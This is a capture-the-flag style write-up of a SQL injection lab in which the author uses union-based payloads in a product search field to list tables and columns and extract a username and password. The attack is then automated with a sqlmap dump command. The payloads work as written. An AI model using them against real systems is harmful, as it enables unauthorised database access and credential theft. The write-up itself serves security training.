 ## SQL Injection "Challenge"
- Objective: Use SQLi to grab the username and password from the injection0x03 table
### App Normal Functionality
- Shows product icons with names and prices
- Has a product search that requires full product name
- Searching for a product shows more information about it
- Broken place order button

### User Input Location
- The search function
- Returns the product search

### Try Inputs to Change Behavior
- Searching for `' or 1=1#` shows all the products in the results
- `' union select null,null,null,null#` shows an empty product image, name, price, and description
- `' union select null,null,null,version()#` shows the database version 8.0.40 
- `'  union select null,null,null,table_name from information_schema.tables#` shows all the table names
- `'  union select null,null,null,column_name from information_schema.columns#` shows all the column names
- `'  union select null,null,null,username from injection0x03_users#` shows the username `takeshi`
- `'  union select null,null,null,password from injection0x03_users#` shows the password `onigirigadaisuki`
- Objective complete, too easy

### Use SQLMap to Automate it
- Grab a post request from Burp
- Paste it into req3.txt
- Set payload to `test`
- Run `sqlmap -r req3.txt -T injection0x03_users  --dump`
  
![image](https://github.com/user-attachments/assets/0b8ae96d-731e-4d20-9687-0f509c71e98a)






